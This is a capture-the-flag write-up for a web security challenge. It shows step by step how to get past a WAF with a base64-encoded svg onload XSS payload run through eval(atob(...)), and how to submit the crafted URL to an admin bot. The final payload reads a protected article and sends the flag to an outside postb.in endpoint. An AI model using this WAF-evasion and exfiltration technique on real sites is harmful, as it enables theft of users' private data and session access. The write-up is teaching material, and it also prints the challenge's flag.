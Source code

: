 # I Have Caught You Now

## Challenge
* Category: Web Security
* Points: 250

XSS is a thing of the past! Read all about it here: http://challenge.acictf.com:55351

### Hints
* See what happens if you send XSS to the search
* This WAF might make you less secure
* Use parameter names to your advantage


## Solution

### Tools
* [postb.in](https://postb.in/)
* Chrome or Firefox Browser Dev Tools
* https://www.urlencoder.org/
* https://www.base64encode.org/


Browse the website and take note of the different pages and forms. Lets list the areas of interest on the Website
* Our flag is at http://challenge.acictf.com:55351/article/1, but we do not have access to the page containing the flag
* Each page contains a `Search` box in the upper right corner. This is where we will fuzz the WAF (Web Application Firewall)
* There is a page where we submit articles to the admin for review. It is at http://challenge.acictf.com:55351/submit.

Since we do not have an account that can view the obfuscated page containing the, we will need to use the submission box in the third bullet to render the page and return to us the flag.

#### Approach
* Enumerate Details about the WAF
* Craft a Workable Payload that Bypasses the WAF
* Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

#### Enumerate Details about the WAF

The following sites have good examples on enumerating WAFs
* https://www.secjuice.com/bypassing-web-application-firewalls-for-cross-site-scripting/
* https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Start by putting some familiar javascript into the Search Box `<script>window.alert('hello world')</script>` and view the WAF's output. We get the response `This Page has been blocked by SecureWAF`. Inspect the page and notice the `search` is in a HTML `<code></code>` block. Since our `<script>...</script>` tags were not included in the code block, we will probably need to obfuscate. Also take a look at the URL `/search?search=%3Cscript%3Ewindow.alert%28%27hello+world%27%29%3C%2Fscript%3E`. Notice the space in `hello world` was replaced with `+` and all of the `%HEX` characters. This is URL Encoding.

Put `<x>` in the Search Box. Notice the WAF did not trigger. The WAF is triggering on script tags and javascript. We will need to encode our payload. However, in order for our payload to execute, we will need to decode it. We also cannot have spaces in the non-base64 parts of our URL. A quick google search for `XSS without spaces` leads us to [this](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) page, which suggests using the `<svg>` tag to run javascript without spaces or slashes.   

Since we will be encoding the payload ourself, we will copy-paste the full URL into the browser rather than paste portions of it into the Search box.

Lets build the testing URL.
Our base url: http://challenge.acictf.com:55351/search?search=1&. We will put `1&` after the search= parameter. The `&` symbol separates parameters in a URL. So we are going to give it a random character `1` and then the next parameter is our payload.

Start url-encoding our payload. Make sure you read the whole response to the [stackexchange](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) article referenced above. We will need to change the `•` in the payload to its proper urlencoded character (hex 0c). Put `<svg•onload=` in [this](https://www.urlencoder.org/) site and hit encode. Change the dot's characters to `0c`. So now we have `%3Csvg%0Conload%3D`.

Next. Lets encode `window.alert('Hello World')` in base64. It becomes `d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp`. You can use this website to do the base64 encoding https://www.base64encode.org/.

Now. we need to wrap the above base64 payload in some javascript that will decode the base64. You can play with javascripts `atob` function here https://www.w3schools.com/jsref/met_win_atob.asp

Our wrapped base64 atob function looks like this:
```
"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"
```

Finally, we will need to close our original `<svg` tag with an encoded >, which is `%3E`.

Now put it all together

http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E

Drop that URL into the browser. Hrmm, notice it did not trigger the WAF. Try adding `<script>` to the end to see if we trigger the WAF. This part took me a bit to figure out. We need to add `=<script>` to the end of the URL to trigger the WAF.

Now lets try the whole URL and see if we can run some javascript. Paste the following into the URL and see what happens.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E=<script>
```

![alert](images/alert_works.png)

Huzzah! Check out the HTML `<code>` block below. It contains our scipt.

![alert htmml](images/alert_html.png)


#### Craft a Workable Payload that Bypasses the WAF

Now that we tested the WAF above. Lets research some method in javascript to render another webpage. This [site](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/) details four methods for making calls to websites in javascript. We will start by modifying the ajax `XMLHttpRequest()` method.

Modify our base code block to use the URL for the website containing the flag.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
  console.log(Http.responseText)
}
```

Paste the above code into https://www.base64encode.org/ and click encode. Our resulting payload is `Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9`

Now piece together the entire URL and drop it into the browser.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9+'`))"%3E=<script>
```

In your browser's Dev Tools, open the `console` and inspect the output. Below is a screenshot of a portion of the output.

![console](images/console_output.png)

We successfully grabbed the target website and printed its contents to our console. The problem, however, is we do not have an account to view the obfuscated content. So we will need to use their URL submission form to grab the target site for us and return its contents to our postb.in site.

#### Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

Before we modify our payload, we need to build a regex that can extract the flag from the website. I tried to convert the entire site to a string and ship it back to my postb.in endpoint, but was unable to do it. So we will grab just the flag and ship it back.

I am more familiar with pcre. I needed to play around with javascript regex to get the format just right. We will use javascript's `match()` function. I went [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and tested a few regex's. We know the flag format is `ACI{something}`. So our regex is `/ACI{.*}/g`

![regex](images/build_regex.png)

Go to https://postb.in/ and Create a bin.

Modify our payload to include the flag regex and the callback to our postb.in endpoint.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
    flag = Http.responseText.match(/ACI{.*}/g);
    window.location = 'https://postb.in/1589226090750-2006637025624?flag=' + flag;
}
```

Copy your new payload into https://www.base64encode.org/ and get the new encoded payload. My payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0=
```

**IMPORTANT NOTE**
My payload contains characters that will error out in the `<svg>` script. I need to replace `=` with its URL encoded character `%3D`. Check your payload for any `+`, `/`, and `=` and switch them out for their URL encoded hex. You can get the encoded characters at https://www.urlencoder.org/

So my fixed payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D
```

Now lets build the entire URL.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D+'`))"%3E=<script>
```

Paste this URL into the `Submission` box at the http://challenge.acictf.com:55351/submit endpoint and click `Send Submission`. Go check your postb.in

![flag](images/flag.png)

There it is. The website used its permissions to view the obfuscated page and send us the flag.

**ACI{01cabd1a0620f802c5227970d37}**
